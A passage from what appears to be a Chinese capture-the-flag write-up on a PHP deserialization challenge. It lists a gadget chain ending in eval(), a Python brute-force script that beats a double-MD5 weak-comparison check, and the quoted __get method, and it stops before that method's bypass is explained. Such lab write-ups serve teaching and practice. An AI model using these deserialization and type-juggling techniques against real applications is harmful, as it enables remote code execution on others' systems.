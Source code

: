
调用链：

```txt
AAA->__destruct()
AAA->__toString()
GGG->__invoke()
EEE->__get('pen')
eval($this->f)
```

以下是每个部分如何绕过：

#### MD5碰撞

```php
public function __invoke(){
    if(md5(md5($this -> book)) == 666) {   
        return $this -> green -> pen;
    }
}
```

利用PHP字符串与整数的弱类型比较，写python脚本进行MD5碰撞。

```python
import hashlib
import string
import itertools

def double_md5(s):
    first_hash = hashlib.md5(s.encode()).hexdigest()
    second_hash = hashlib.md5(first_hash.encode()).hexdigest()
    return second_hash

def random_str():
    n = 1
    while True:
        for s in itertools.product(string.digits + string.ascii_letters, repeat=n):
            yield ''.join(s)
        n += 1

for s in random_str():
    m = double_md5(s)
    if m.startswith('666') and not m[3].isdigit():
        print(s)
        print(m)
        break
```

运行得到`md5(md5('eS')) = '666adf7e8db0edc039faffa03fdcccd7'`。所以`$this -> book = 'eS';`。

#### __get()

```php
    public function __get($arg1){
        $this->d[$this->e]=1;
        if ($this->d[]=1){
            echo 'nononononnnn!!!';
            }
        else{
            eval($this->f);
            }
    }
```
